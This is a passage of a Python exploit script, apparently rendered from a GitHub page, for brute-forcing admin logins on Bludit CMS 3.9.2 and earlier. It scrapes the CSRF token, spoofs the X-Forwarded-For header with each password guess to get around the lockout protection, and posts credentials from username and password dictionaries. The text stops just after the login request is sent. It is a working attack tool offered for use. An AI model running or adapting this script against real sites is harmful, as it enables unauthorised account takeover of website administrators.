#Expected Arguments
parser = argparse.ArgumentParser(description="Bludit <= 3.9.2 Auth Bruteforce Mitigation Bypass", formatter_class=argparse.RawTextHelpFormatter, 
epilog=textwrap.dedent(''' 
Exploit Usage : 
./exploit.py -l http://127.0.0.1/admin/login.php -u user.txt -p pass.txt
./exploit.py -l http://127.0.0.1/admin/login.php -u /Directory/user.txt -p /Directory/pass.txt'''))                     

parser.add_argument("-l","--url", help="Path to Bludit (Example: http://127.0.0.1/admin/login.php)") 
parser.add_argument("-u","--userlist", help="Username Dictionary") 
parser.add_argument("-p","--passlist", help="Password Dictionary")    
args = parser.parse_args()

if len(sys.argv) < 2:
    print (f"Exploit Usage: ./exploit.py -h [help] -l [url] -u [user.txt] -p [pass.txt]")          
    sys.exit(1)  

# Variable
LoginPage = args.url
Username_list = args.userlist
Password_list = args.passlist

log.info('Bludit Auth BF Mitigation Bypass Script by ColdFusionX \n ')

def login(Username,Password):
    session = requests.session()          
    r = session.get(LoginPage)
 
# Progress Check    
    process = log.progress('Brute Force')

#Getting CSRF token value
    CSRF = re.search(r'input type="hidden" id="jstokenCSRF" name="tokenCSRF" value="(.*?)"', r.text)
    CSRF = CSRF.group(1)

#Specifying Headers Value
    headerscontent = {
    'User-Agent' : 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
    'Referer' : f"{LoginPage}",
    'X-Forwarded-For' : f"{Password}"
    }

#POST REQ data
    postreqcontent = {
    'tokenCSRF' : f"{CSRF}",
    'username' : f"{Username}",
    'password' : f"{Password}"
    }

#Sending POST REQ
    r = session.post(LoginPage, data = postreqcontent, headers = headerscontent, allow_redirects= False)
